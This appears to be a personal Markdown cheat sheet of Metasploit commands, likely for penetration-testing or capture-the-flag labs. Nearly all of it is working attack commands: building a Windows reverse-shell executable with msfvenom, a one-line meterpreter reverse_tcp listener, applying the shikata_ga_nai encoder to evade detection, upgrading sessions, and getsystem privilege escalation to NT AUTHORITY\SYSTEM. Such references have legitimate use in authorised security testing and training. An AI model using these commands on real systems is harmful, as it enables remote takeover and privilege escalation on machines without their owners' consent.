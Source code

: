 # Metasploit commands

## Basics

basic msvenom reverse-shell payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=${PORT} -f exe -o shell
```

One-liner for setting up a listener
```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 6666; run"

```
## encoding

To see encoders available to you, use `msvenom -l encoders`.

Then, you can something like `-e x86/shikata_ga_nai` when creating the payload.

## Session handling

upgrade recent session to meterpreter session: `sessions -u -1`

## Windows Priv Esc

Using a meterpreter session of from payloads `windows/x64/shell_reverse_tcp` or `windows/shell/reverse_tcp`, you can do this script-kiddie move to privilege escalate:

```
meterpreter > use priv
```
(this might just say `[!] The "priv" extension has already been loaded.`)
```
getsystem
```
and meterpreter will do it's best to get you `NT AUTHORITY\SYSTEM`

